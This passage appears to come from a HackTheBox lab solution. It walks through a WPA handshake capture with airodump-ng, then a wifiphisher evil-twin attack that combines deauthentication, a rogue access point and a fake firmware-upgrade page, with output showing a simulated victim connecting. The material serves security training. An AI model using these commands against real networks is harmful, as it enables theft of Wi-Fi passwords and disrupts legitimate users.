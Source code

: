 Students need to check the output of `airodump-ng` to see if the handshake was captured.

```
 CH  1 ][ Elapsed: 3 mins ][ 2025-03-06 17:20 ][ ][ WPA handshake: 52:CD:8C:79:AD:87       
```

After confirming that the handshake was captured, students need to exit `airodump-ng`, then turn off monitor mode on `wlan0mon`.

Code: shell

```shell
sudo airmon-ng stop wlan0mon
```

```
wifi@twins:~$ sudo airmon-ng stop wlan0mon

PHY	Interface	Driver		Chipset

phy2	wlan0mon	mac80211_hwsim	HTB Chipset of 802.11 radio(s) for mac80211
		(mac80211 station mode vif enabled on [phy2]wlan0)
		(mac80211 monitor mode vif disabled for [phy2]wlan0mon)
phy3	wlan1		mac80211_hwsim	HTB Chipset of 802.11 radio(s) for mac80211
phy4	wlan2		mac80211_hwsim	HTB Chipset of 802.11 radio(s) for mac80211
```

Now, students need to use `wifiphisher` to perform the Firmware Upgrade Phishing attack.

Code: shell

```shell
sudo wifiphisher -aI wlan0 -eI wlan1 -p firmware-upgrade --handshake-capture HTB-01.cap -kN
```

```
wifi@twins:~$ sudo wifiphisher -aI wlan0 -eI wlan1 -p firmware-upgrade --handshake-capture HTB-01.cap -kN

Authorization required, but no authorization protocol specified
[*] Starting Wifiphisher 1.4GIT ( https://wifiphisher.org ) at 2025-03-06 17:40
[+] Timezone detected. Setting channel range to 1-13
[+] Selecting wlan1 interface for the deauthentication attack
[+] Selecting wlan0 interface for creating the rogue Access Point
<SNIP>
```

Students need to press `Enter` to select the `HTB-Wireless` network as the target.

![[HTB Solutions/Others/z. images/1964c3d71f728406205f40a56bf979ad_MD5.jpg]]

After a few moments, the victim will connect to the rogue AP, then subsequently authenticate to the phishing site.

Code: session

```
Extensions feed:                                                                 | Wifiphisher 1.4GIT
DEAUTH/DISAS - 02:00:00:00:04:00                                                 | ESSID: HTB-Wireless
DEAUTH/DISAS - 02:00:00:00:01:00                                                 | Channel: 1
WAITING FOR WPA KEY POST (ESSID: HTB-Wireless)                                   | AP interface: wlan0
Victim 2:0:0:0:1:0 probed for WLAN with ESSID: '' (KARMA)                        | Options: [Esc] Quit
                                                                                 |_____________________________
Connected Victims: 
02:00:00:00:01:00       10.0.0.23       Unknown

```